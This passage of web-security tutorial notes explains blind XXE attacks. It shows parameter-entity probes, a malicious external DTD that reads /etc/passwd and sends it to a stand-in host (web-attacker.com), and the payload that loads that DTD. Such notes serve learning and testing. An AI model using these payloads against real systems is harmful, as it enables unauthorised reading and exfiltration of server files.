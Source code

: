 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

Parameter entities are referenced using the `%` character such as:

```xml
%myparameterentity;
```

To test for blind XXE using parameter entities, try the following:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

It declares an XML parameter entity and then uses the entity within the DTD, potentially causing a DNS and HTTP request to the collaborator domain.
# Blind XXE to Exfiltrate Data via External DTD

To exfiltrate data via blind XXE, you must host a malicious DTD on a system and invoke the external DTD from within the in-band XXE payload. An example may be:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfil;
```

It does as follows:

- Defines XML parameter entity containing the contents of `passwd`
- Defines an XML parameter entity containing a dynamic declaration of another XML parameter entity.
- The `exfiltrate` entity is evaluated by making an HTTP to the URL containing the value of the `file` entity within the query string.
- Uses the `eval` entity to cause the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity so its value is evaluated by requesting the specified URL.

To exploit, host the malicious DTD such as:

```http
http://web-attacker.com/malicious.dtd
```

And submit the following XXE payload to the vulnerable app:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

It declares an XML parameter entity and uses the entity within the DTD, causing the XML parser to fetch the external DTD and interpret it inline. The steps in the malicious DTD are executed and `passwd` is transmitted to the attacker.

>[!info]
>It may not work with some files with newlines as XML parsers fetch the URL using an API that validates the characters allowed to appear within the URL. If so, try using the FTP protocol instead. If still no success, other files may be needed.
# Blind XXE to Exfiltrate Data via Errors
